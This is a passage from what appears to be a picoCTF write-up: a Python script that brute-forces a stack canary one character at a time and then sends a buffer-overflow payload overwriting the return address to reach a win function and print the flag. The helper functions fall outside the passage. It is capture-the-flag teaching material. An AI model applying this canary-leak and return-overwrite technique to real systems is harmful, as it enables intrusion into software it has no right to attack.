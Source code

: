 ```python
    # Close the connection
    conn.close()

    return response


def get_flag(output):
    index = output.find("picoCTF{")
    result = output[index:]  # substring from pattern to end
    return result


def execute():
    win_addr = "08049336"
    canary_dist = 64
    ret_dist = 16
    canary = "____REDACTED____".encode()[::-1].hex()
    payload = construct_payload(canary, canary_dist, win_addr, ret_dist, True)
    server_output = send_to_server(payload)
    print(get_flag(server_output.decode('utf-8', errors='ignore')))


def find_canary():
    canary_dist = 64
    confirmed = ""
    for chr in "AaBbCcDdEeFfGgHhIiJjKkLlMmNnOoPpQqRrSsTtUuVvWwXxYyZz":
        canary = confirmed+chr
        payload = construct_payload(canary.encode()[::-1].hex(), canary_dist, encode=True)
        server_output = send_to_server(payload)
        print(canary + ": ", end="")
        print(server_output)


def generate_payload():
    win_addr = "08049336"
    canary = "cana".encode()[::-1].hex()
    canary_dist = 64
    ret_dist = 16
    payload = construct_payload(canary, canary_dist, win_addr, ret_dist)
    print(len(payload))
    print(payload)

def main():
    if(len(sys.argv) <=1):
        print("Please enter operation")
        sys.exit()
    operation=sys.argv[1]
    
    if operation == "payload":
        generate_payload()
    elif operation == "find":
        find_canary()
    elif operation == "execute":
        execute()
    else:
        print("Invalid operation")
main()
```
The script has three operations:
1) payload - Generate payload
2) find - Find canary value
2) execute - Get flag
